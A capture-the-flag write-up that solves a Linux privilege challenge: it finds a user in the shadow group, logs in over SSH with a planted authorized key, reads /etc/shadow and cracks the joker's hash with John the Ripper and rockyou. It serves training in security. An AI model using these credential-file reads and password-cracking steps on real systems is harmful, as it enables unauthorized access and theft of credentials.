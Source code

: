# The Dark Knight

By [Siorde](https://github.com/Siorde)

## Description
The Batman is lurking in the shadows, ready to take down the next criminal. Usually we don't mind, but he has some critical intel he won't share about the Joker : his password on the network. Gordon, find who he is and get the intel. We know it's one of the users of this network.

Good luck.

## Solution
Once i logged on the serveur, i tried to cat /etc/shadow and /etc/passwd. The acces was denied for the /etc/shadow but i got the /etc/passwd
```
gordon@5653f407bf8b:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
gordon:x:1000:1000:,,,:/home/gordon:/bin/bash
joker:x:1001:1001:,,,:/home/joker:/bin/bash
bradley_warner:x:1002:42:,,,:/home/bradley_warner:/bin/bash
black_williams:x:1003:1003:,,,:/home/black_williams:/bin/bash
brett_willis:x:1004:1004:,,,:/home/brett_willis:/bin/bash
bonnie_winter:x:1005:1005:,,,:/home/bonnie_winter:/bin/bash
```
I noticed that bradley_warner was is in the group 42 instead of 1002. So i looked at what group it was : 
```
gordon@5653f407bf8b:~$ groups bradley_warner
bradley_warner : shadow
```
It match what was written in the description of the challenge and with a "ls -al /etc", we can see that this group can cat /etc/shadow.</br>
I cat the only file in the home of bradley_warner : 
```
gordon@5653f407bf8b:~$ cat /home/bradley_warner/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDledZGWxygUWUe1jv1R7J18KKvMVVXKEG0wmZi53FFdWRanbgLSIEOL8LlfgG8gGCgljo/X/ezZIFEeBGl4ioJeWZbHghgwdW3W24bgeGLf+C2fyLviY+yNXTLCx9tBFtrksB7MBaKFD1CGCRjqdWQ3qOvSOXpQr0JVF/1R52oX3xQcABghD0UbOLq+31KsMpWw5fmW0Nd5a60UUQWKyju+ZvsCvnaPrxs+DvABpoMAriNOGG4x/5zZGLNb+dvKrv+6QjHee+lXeHMoCPVWf8q8rhy8zYfSR4ZXsHsKEhfSgZ10QrfSgoWCdM2P1PUBvbXDIvrFzKbymKG7CwFOPQn gordon@5ff44b32ff8a
```
So apparently gordon can do a ssh for the user bradley_warner : 
```
ssh bradley_warner@localhost
```
Now we can see the /etc/shadow : 
```
bradley_warner@5653f407bf8b:~$ tail /etc/shadow
systemd-network:*:18742:0:99999:7:::
systemd-resolve:*:18742:0:99999:7:::
messagebus:*:18742:0:99999:7:::
sshd:*:18742:0:99999:7:::
gordon:$6$EWpyf71C$Flz7gbn/SiQhZwAgRIqoXOG56PT2lK0aXjvM0ubY/52VBdESWS6iv0R6ZdcCWTZ/nSIBIMpXybqfyq5BGjLNr0:18742:0:99999:7:::
joker:$6$R7sLJXQ9$wtS/caquqtt3l3ElAbyBILd4ylOCIOHXTJBC.o9qu48p0mXaTorvd0pD.H.i3buECHGzHbBT3XFEtGg8EoX650:18742:0:99999:7:::
bradley_warner:*:18742:0:99999:7:::
black_williams:*:18742:0:99999:7:::
brett_willis:*:18742:0:99999:7:::
bonnie_winter:*:18742:0:99999:7:::
```
We only need to brutforce the jocker password :
```
$ echo "joker:$6$R7sLJXQ9$wtS/caquqtt3l3ElAbyBILd4ylOCIOHXTJBC.o9qu48p0mXaTorvd0pD.H.i3buECHGzHbBT3XFEtGg8EoX650:1001:1001:,,,:/home/joker:/bin/bash" > unshadowed.txt
$ john -wordlist=./rockyou.txt unshadowed.txt
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovebatman      (joker)
```
So the flag is Hero{ilovebatman} !
